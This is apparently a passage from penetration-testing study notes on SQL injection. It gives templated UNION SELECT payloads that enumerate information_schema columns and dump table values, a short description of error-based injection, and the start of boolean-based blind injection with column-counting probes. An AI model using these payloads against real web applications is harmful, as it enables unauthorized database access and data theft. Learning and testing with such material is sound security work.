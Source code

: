 {% code overflow="wrap" lineNumbers="true" %}
```sql
/about/-1 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name='$tablename'

About | id,firstName,lastName,pfpLink,role,shortRole,bio,$columname None #The result obtained in the response
```
{% endcode %}

***

* Obtain the required information from the table

{% code overflow="wrap" lineNumbers="true" %}
```sql
/about/-1 UNION ALL SELECT $columname,null,null,null,null FROM $tablename WHERE id = 1
#The response is the information that we were looking for
```
{% endcode %}

### <mark style="color:purple;">Error-Based</mark>

Obtaining information about the database structure as error messages from the database are printed directly to the browser screen.

## <mark style="color:blue;">Blind (Inferential)</mark>

Results of the attack can't directly be seen on the screen, we get little to no feedback to confirm whether our injected queries were.

### <mark style="color:purple;">Boolean Based</mark>

Use the response we receive back from our injection if this only has two outcomes

* Check if the page has verification queries

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/$query?$column=$value
</strong></code></pre>

***

* Use union injection until the state changes

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION SELECT 1;
$url/query?$column=$changedvalue' UNION SELECT 1,2;   #Try with a extra value
$url/query?$column=$changedvalue' UNION SELECT 1,2,3; #Try Until the result change
#This will determine the number of columns
```
{% endcode %}

***
